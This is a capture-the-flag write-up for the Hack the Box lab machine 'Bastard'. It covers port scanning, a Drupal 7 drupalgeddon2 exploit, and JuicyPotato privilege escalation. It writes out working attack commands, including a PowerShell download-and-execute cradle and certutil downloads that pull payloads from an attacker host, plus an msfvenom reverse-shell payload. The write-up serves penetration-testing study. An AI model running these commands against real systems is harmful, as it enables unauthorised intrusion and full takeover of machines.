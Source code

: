 ```yaml
---
title: Hack the Box - Bastard
date: 2022-08-16 22:17:00 -500 
categories: [Hack the Box]
tags: [oscp,windows]
---
```


![Bastard](/assets/HackTheBox/Bastard/Bastard.png)

# Bastard Overview

## Machine Details

|IP|Hostname|Operating System|
|---|---|---|
|10.10.10.9|Bastard|Windows|

## Path to Exploitation

Compromising this machne requires us to exploit a vulnerable version of a Drupal server that grants us a shell on the machine. Once we get our shell we enumerate our user and machine information and find that we have the seImpersonatePrivilege enabled. We can leverage this privilege to escalate to SYSTEM.

# Bastard Enumeration

## Full Port Scan

```bash
nmap 10.10.10.9 -p- -oA Bastard/nmap/full-port --open -Pn -vv
```

Results:

|PORT|SERVICE|
|----|-------|
|80|http|
|135|msrpc|
|49154|unknown|

## Service Scan

```bash
nmap 10.10.10.9 -p 80,135,49154 -sC -sV -oA Bastard/nmap/service-scan -Pn
```

Results:

|PORT|SERVICE|VERSION|
|----|-------|-------|
|80|http|IIS httpd 7.5|
|135|msrpc|Windows RPC|
|49154|msrpc|Windows RPC|

# Website

![Drupal Site](/assets/HackTheBox/Bastard/drupal-site.png "Drupal Site")

## DrupeScan

```shell
$ ./droopescan scan drupal -u http://10.10.10.9/
```
![DroopeScan](/assets/HackTheBox/Bastard/droopescan.png "DroopeScan Results")

We see the Drupal version is 7.54 so we can use the [drupalgeddon2](https://github.com/lorddemon/drupalgeddon2) exploit. We can test the exploit to see if we can get command execution

```shell
$ ./drupalgeddon2.py -h http://10.10.10.9 -c 'whoami'
nt authority\iusr
```

Use the Invoke-PowerShellTcp.ps1 script and add the following line to the bottom of the file:

```shell
Invoke-PowerShellTcp -Reverse -IPAddress 10.10.14.10 -Port 443
```

Setup a listener and execute the following command:

```shell
$ ./drupalgeddon2.py -h http://10.10.10.9 -c "powershell IEX(New-Object Net.WebClient).DownloadString('http://10.10.14.10/Invoke-PowerShellTcp.ps1')"
```

We check on our listener and we see we have caught a reverse shell as the iuser account

![Intial Foothold](/assets/HackTheBox/Bastard/initial-foothold.png "Reverse Shell")

# Privilege Escalation

## Local Enumeration

### System Enumeration

```shell
PS:\> systeminfo
```
![System Info](/assets/HackTheBox/Bastard/sys-info.png "System Info")

### User Enumeration

```shell
PS:\> whoami /priv
```

![User Privileges](/assets/HackTheBox/Bastard/user-privs.png "User Privileges")

We see based on our privileges and the machine operating system that we may be able to leverage the juicy potato exploit

## Getting SYSTEM

Generate the reverse shell payload:

```shell
$ msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.10 LPORT=443 -f exe -o evil.exe 
````

Upload the juicy potato script and the reverse shell payload to the machine

```shell
PS:\> certutil -urlcache -f http://10.10.14.10/juicypotato.exe juicy.exe
PS:\> certutil -urlcache -f http://10.10.14.10/evil.exe evil.exe
```

Setup a listener and execute the script (Use the [GetCLSID.ps1](https://github.com/ohpe/juicy-potato/blob/master/CLSID/GetCLSID.ps1) script to identify the CLSID):

```shell
PS:\> .\juicy.exe -l 1337 -p "C:\temp\evil.exe" -t * -c "{9B1F122C-2982-4e91-AA8B-E071D54F2A4D}"
```

Checking back on the listener we see we have a shell as the SYSTEM account.

![Getting SYSTEM](/assets/HackTheBox/Bastard/priv-esc.png "Getting SYSTEM")
